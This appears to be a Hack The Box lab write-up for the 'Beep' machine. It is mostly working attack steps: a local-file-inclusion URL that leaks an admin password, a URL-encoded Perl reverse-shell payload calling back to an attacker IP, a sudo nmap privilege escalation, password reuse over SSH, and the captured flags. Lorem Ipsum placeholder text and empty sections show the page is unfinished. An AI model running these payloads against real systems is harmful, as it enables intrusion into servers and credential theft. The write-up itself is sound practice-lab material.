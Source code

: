 ```yaml
---
layout: single
title: Beep - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-beep/beep_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-beep/beep_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/beep# nmap -Pn -n 10.10.10.7
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 11:22 CEST
    Nmap scan report for 10.10.10.7
    Host is up (0.037s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    22/tcp    open  ssh
    25/tcp    open  smtp
    80/tcp    open  http
    110/tcp   open  pop3
    111/tcp   open  rpcbind
    143/tcp   open  imap
    443/tcp   open  https
    993/tcp   open  imaps
    995/tcp   open  pop3s
    3306/tcp  open  mysql
    4445/tcp  open  upnotifyp
    10000/tcp open  snet-sensor-mgmt

   DIRB:

   NIKTO:


2. Looking on port 80 we are instantly forwarded to the 443 version prompting us with a Elastix login screen. Googling for this we
   find bunch of exploits, amongst other a authenticated RCE privesc and a unauthenticated LFI that seems promising.

     root@nidus:/git/htb/beep# searchsploit elastix
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
        Exploit Title                                                                                                              |  Path
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
       ..
       Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                            | php/webapps/37637.pl
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

    Reading the code (searchsploit -x 37637.pl) we find that is real simple and can be done directly in the browser.
      #LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    Visit:
    https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    In all the text we find the following lines:
      # This is the default admin name used to allow an administrator to login to ARI bypassing all security.
      # Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
      ARI_ADMIN_USERNAME=admin

      # This is the default admin password to allow an administrator to login to ARI bypassing all security.
      # Change this to a secure password.
      ARI_ADMIN_PASSWORD=jEhdIekWmdjE

    Logging in to the site gives me the message "Error - Access denied for 10.10.14.4. The host has been blocked because of too many authentication failures"


3. Wait for the block go timeout, and then login to the elastix service, https://10.10.10.7/.
   Continue to search for elastix exploits we find a RCE:
    FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py

   Just like previous exploit, this is a one-liner that can be used from the URL. For it to work we need to specify
   LHOST = 10.10.14.10
   LPORT = 4488
   RHOST = 10.10.10.7
   EXTENSION = ?

   Looking in Elastix > PBX we find the extension 'Fanis Papafanopoulos <233>', so set this value to 233.
   Setup a listener and paste your one-liner to exploit.

   https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.10%3a4488%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

   [root:/git/htb/beep]# nc -lvnp 4488                                                                                               (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.7] 40047
    whoami
      asterisk
    python -c 'import pty;pty.spawn("/bin/bash")'
      bash-3.2$


    bash-3.2$ sudo -l
      Matching Defaults entries for asterisk on this host:
          env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
          LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
          LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
          LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
          XAUTHORITY"

      User asterisk may run the following commands on this host:
          (root) NOPASSWD: /sbin/shutdown
          (root) NOPASSWD: /usr/bin/nmap
          (root) NOPASSWD: /usr/bin/yum
          (root) NOPASSWD: /bin/touch
          (root) NOPASSWD: /bin/chmod
          (root) NOPASSWD: /bin/chown
          (root) NOPASSWD: /sbin/service
          (root) NOPASSWD: /sbin/init
          (root) NOPASSWD: /usr/sbin/postmap
          (root) NOPASSWD: /usr/sbin/postfix
          (root) NOPASSWD: /usr/sbin/saslpasswd2
          (root) NOPASSWD: /usr/sbin/hardware_detector
          (root) NOPASSWD: /sbin/chkconfig
          (root) NOPASSWD: /usr/sbin/elastix-helper

    bash-3.2$ sudo /usr/bin/nmap --interactive
      Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
      Welcome to Interactive Mode -- press h <enter> for help
      nmap> !sh
        sh-3.2# whoami
          root

        sh-3.2# cat /home/fanis/user.txt
          6e81a26eb20987c5ef0602984f0f66ee

        cat /root/root.txt
          f024f39974fa0274157fbe11845fffa7



(3). We got a password, trying password re-use seems to be a play here as well - we instantly get root. Grab the flags.

    root@nidus:/git/htb/beep# ssh root@beep.htb
      Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
    root@nidus:/git/htb/beep# ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@beep.htb
      root@beep.htb's password: jEhdIekWmdjE
        Last login: Tue Jul 16 11:45:47 2019

        Welcome to Elastix
        ----------------------------------------------------

        To access your Elastix System, using a separate workstation (PC/MAC/Linux)
        Open the Internet Browser using the following URL:
        http://10.10.10.7

      [root@beep ~]# cat root.txt
        d88e006123842106982acce0aaf453f0
      [root@beep ~]# ls -al /home/
        total 28
        drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
        drwxr-xr-x 22 root       root       4096 Jul 30 12:10 ..
        drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
        drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
      [root@beep ~]# cat /home/fanis/user.txt
        aeff3def0c765c2677b94715cffa73ac





██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Elastix LFI:
  https://www.exploit-db.com/exploits/37637
